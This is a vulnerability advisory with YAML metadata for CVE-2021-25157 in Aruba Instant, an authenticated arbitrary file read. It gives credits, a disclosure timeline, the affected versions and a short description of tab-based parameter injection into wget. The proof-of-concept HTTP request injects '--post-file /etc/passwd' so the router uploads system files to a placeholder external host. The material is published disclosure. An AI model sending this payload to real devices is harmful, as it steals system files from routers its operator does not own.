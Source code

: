 ```yaml
---
layout: vuln
credit: 
    - Gr33nh4t
    - waveburst
timeline:
    - type: 'report'
      date: '2020-11-22'
    - type: 'cve-assign'
      date: '2021-02-03'
    - type: 'patch'
      date: '2021-03-09'
    - type: 'release'
      date: '2021-03-09'
product:
     - ' - Aruba Instant'

vulnerable:
     - ' - Aruba Instant 6.4.x: 6.4.4.8-4.2.4.17 and below'
     - ' - Aruba Instant 6.5.x: 6.5.4.18 and below'
     - ' - Aruba Instant 8.3.x: 8.3.0.14 and below'
     - ' - Aruba Instant 8.5.x: 8.5.0.11 and below'
     - ' - Aruba Instant 8.6.x: 8.6.0.6 and below'
     - ' - Aruba Instant 8.7.x: 8.7.1.0 and below'


severity: 'moderate'
alephid: ALEPH-2021005
cve: CVE-2021-25157
date: '2021-03-09'
references:
    - src: 'Aruba Instant (IAP) Multiple Vulnerabilities'
      url: 'https://www.arubanetworks.com/assets/alert/ARUBA-PSA-2021-007.txt'
  
title: 'Authenticated Arbitrary File Read via Web UI (cplogo-install)'

---
```

An authenticated attacker can read arbitrary files from the router and send them to a remote server. The issue is within the handler for the cplogo-install CLI command.
The handler for the command will not filter %09(tab) characters from the param, which can cause parameter injection into wget call.

## POC:

```
POST /swarm.cgi HTTP/1.1
Host: IP:4343
.......
.......
Cookie: sid=XXXXXXXXXXXXXXXXXXXX; login=undefined; password=undefined; userType=admin
 
opcode=config&ip=127.0.0.1&cmd='end%20%0Aapply%20cplogo-install%20"http://EXTERNAL-IP/backup.cfg%09--post-file%09/etc/passwd%09#"'&refresh=false&sid=XXXXXXXXXXXXXXXXXXXX&nocache=0.23759201691110987&=&=

```